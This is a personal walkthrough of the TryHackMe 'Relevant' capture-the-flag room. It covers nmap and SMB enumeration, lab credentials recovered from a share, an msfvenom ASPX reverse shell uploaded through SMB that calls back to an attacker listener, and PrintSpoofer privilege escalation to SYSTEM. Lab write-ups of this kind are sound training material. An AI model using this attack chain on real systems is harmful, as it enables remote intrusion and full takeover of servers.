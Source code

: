 ## Relevant
---
THM Relevant Room Walkthrough: https://tryhackme.com/room/relevant



## Summary
---
- nmap
- smb share open --> nt4wrksv
- passwords.txt
- port 49663 open --> subdomain /nt4wrksv accessible
- smb allows for upload and download of files (get/put) --> can upload a reverse shell and then access through browser
- catch reverse shell --> user flag
- find user flag
- check whoami & whoami /priv --> SeImpersonatePrivilege enabled is a major security concern
- use JuicyPotato or PrintSpoofer to escalate
- Upload [PrintSpoofer](https://github.com/itm4n/PrintSpoofer) and run as instructed
- whoami --> nt authority\system
- root flag in admin/desktop



## Difficulties/Lessons Learned
---
- Main difficulty on this room was the long enum time for subdirectories and the system constantly freezing
- learning about PrintSpoofer and User Priv in Windows



## Walkthrough
---
Let's first begin by enumerating the machine with nmap. We will run nmap with

```bash
nmap -sS -sV -sC -Pn  <TARGET_IP>
```

![](attachments/Screenshot%202025-02-01%20160003.png)

We can see we have 5 open ports. It's good to keep in mind we only scanned the default number of ports with nmap, which by default should be the 1000 most popular ports.

The 3 most interesting ports we have here are 80, 445, and 3389. (Webserver, SMB shares, RDP access)

Let's start by looking into these. The webserver seems to host this page: 

![](attachments/Screenshot%202025-02-01%20160429.png)

The first thing I think of when I see this and port 445 open is a possible EternalBlue exploit depending on the version of Windows Server.

The only other thing on this website is a link to https://www.iis.net/?utm_medium=iis-deployment with no other interesting information. There may also be something hidden in the image, but let's not get too deep.

Let's check the SMB port, 445. We will use smbclient with the command

```bash
smbclient -L //10.10.71.74
```

We see we have some shares available. We have 3 hidden shares indicated by the $ and then a regular share. 

![](attachments/Screenshot%202025-02-01%20161102.png)

Let's try to connect to them anonymously without passing a -U (User) param.

![](attachments/Screenshot%202025-02-01%20161728.png)

I was able to connect to the IPC share and the last share. I would not expect to find anything in the IPC share because it's used for Inter-Process Communication and not file storage. What's interesting is we were able to see that the last share nt4wrksv actually has a file in it. Let's download it and check it out.

![](attachments/Screenshot%202025-02-01%20162800.png)

We see that we have some encoded passwords. It looked like Base64 was used to encode them so let's decode them to see if we have anything here.

![](attachments/Screenshot%202025-02-01%20163104.png)

We get a username and some passwords! 

```bash
Bill - Juw4nnaM4n420696969!$$$
Bob - !P@$$W0rD!123 
```

The only place I can think to use them is RDP since that port is also open. Let's try. 

RDP does not seem to work with either password and just fails or freezes.

![](attachments/Pasted%20image%2020250201170439.png)

At this point I was feeling a bit stuck. Let's maybe try to enum the subdirectories and then let's look at SMB again. Maybe we can exploit something there. 

Running Gobuster gives us nothing interesting in terms of directories and takes very long. I used directory-list-2.3-medium.txt

The machine became unresponsive which was common in this lab and I had to restart it. I ran MS17-010 SMB RCE Detection to see if maybe the system is vulnerable to EternalBlue. The result told me that the host is likely vulnerable to it, so I tried running EternalBlue.

![](attachments/Pasted%20image%2020250201172528.png)

It did not work and again froze the system. 

The only thing I can think of is to nmap all the ports instead of just the 1000 most popular ports. This also takes very long.

![](attachments/Pasted%20image%2020250201174152.png)

Interesting find. We have 3 extra ports that we missed. We have a webserver at 49663. Let's see what we can find if we go to it in a browser.

Weird. It takes us to the same page. Let's just try to check the other ports as well. I would not expect to find anything since they are RPC ports according to nmap.

![](attachments/Pasted%20image%2020250201192451.png)

As expected the other 2 ports don't resolve.

The image takes us to the same link as the last image and other than the port, it looks identical to the page on port 80. Let's try to enumerate subdirectories with the new port.

This box is extremely slow and freezes often, requiring reboots. I found a subdirectory matching the SMB share (/nt4wrksv) that loads an empty page. Since it may access the same directory, I checked for passwords.txt via the browser—and it worked. If I can upload files, I might get a reverse shell. Time to generate and upload one.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.21.101.68 LPORT=4444 -f aspx -o rev.aspx
```

Generated a rev shell with MSFVenom. We know it's a windows server using IIS, we should maybe be able to use aspx, asp, or php.Uploading this with the smbclient and accessing this through the web server. Setting up an nc listener on port 444.

```bash
smbclient //10.10.219.157/nt4wrksv
put rev.aspx
exit

nc -lvp 4444
```

Accessing the webserver with the rev shell takes a second, but we are in!

![](attachments/Pasted%20image%2020250201195449.png)
 
 Navigating to the Users directory and then Bob>Desktop gives us our first flag!

![](attachments/Pasted%20image%2020250201195710.png)

Checking whoami and whoami /priv we get 

![](attachments/Pasted%20image%2020250201202051.png)

The SeImpersonatePrivilege Priv being enabled is a major issue based on my research. We can use something like JuicyPotato or PrintSpoofer to escalate. Let's try Printspoofer since we can easily upload files with SMB.

![](attachments/Pasted%20image%2020250201203400.png)

Priv has been escalted. Found the root flag in C:\Users\Administrator\Desktop\root.txt

![](attachments/Pasted%20image%2020250201203643.png)


